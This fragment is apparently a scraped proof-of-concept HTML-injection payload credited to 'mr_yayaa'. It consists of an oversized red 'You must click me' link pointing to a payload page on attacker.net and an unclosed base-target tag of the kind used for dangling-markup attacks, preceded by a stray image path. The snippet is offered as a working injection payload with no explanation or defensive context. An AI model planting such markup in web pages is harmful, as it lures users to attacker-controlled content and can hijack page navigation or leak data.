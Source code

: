 <a href=http://attacker.net/payload.html><font size=100 color=red>You must click me</font></a>
<base target='
<h1>poc by mr_yayaa</h1>
